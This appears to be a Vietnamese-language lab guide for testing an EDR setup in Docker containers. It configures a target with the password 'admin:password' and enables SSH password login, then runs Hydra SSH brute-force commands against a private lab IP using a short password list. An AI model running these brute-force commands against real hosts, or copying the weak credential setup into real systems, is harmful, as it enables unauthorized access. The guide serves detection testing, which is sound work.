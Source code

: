 ```bash
echo 'admin:password' | chpasswd

# Cấu hình SSH
sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config

# Khởi động services
mkdir -p /run/sshd
/usr/sbin/rsyslogd
/usr/sbin/sshd

echo "Target setup completed!"
```

## 🔗 Kết nối Network

### Kiểm tra IP addresses
```bash
# Kiểm tra IP của target container
docker inspect deploy-ubuntu-agent-1 | findstr IPAddress
# hoặc
docker exec deploy-ubuntu-agent-1 hostname -I

# Kiểm tra network topology
docker inspect edr-attack-network
```

### Kết nối containers vào attack network
```bash
# Nếu target container bị disconnect
docker network connect edr-attack-network deploy-ubuntu-agent-1

# Kiểm tra connectivity
docker exec attacker-ubuntu ping -c 2 172.19.0.2
```

## ⚔️ Thực hiện các cuộc tấn công

### 1. SSH Brute Force Attack
```bash
# Trong attacker container (IP: 172.19.0.4)
# Target IP: 172.19.0.2

# Tạo password list
cat > /tmp/passwords.txt << 'EOF'
admin
root
password
test
123456
letmein
welcome
EOF

# SSH Brute Force với Hydra
hydra -l testuser -P /tmp/passwords.txt ssh://172.19.0.2 -t 4 -w 3
hydra -l admin -P /tmp/passwords.txt ssh://172.19.0.2 -t 4 -w 3

# Single password test (sẽ fail)
hydra -l testuser -p wrongpass ssh://172.19.0.2 -t 1 -v
hydra -l admin -p badpass ssh://172.19.0.2 -t 1 -v

```
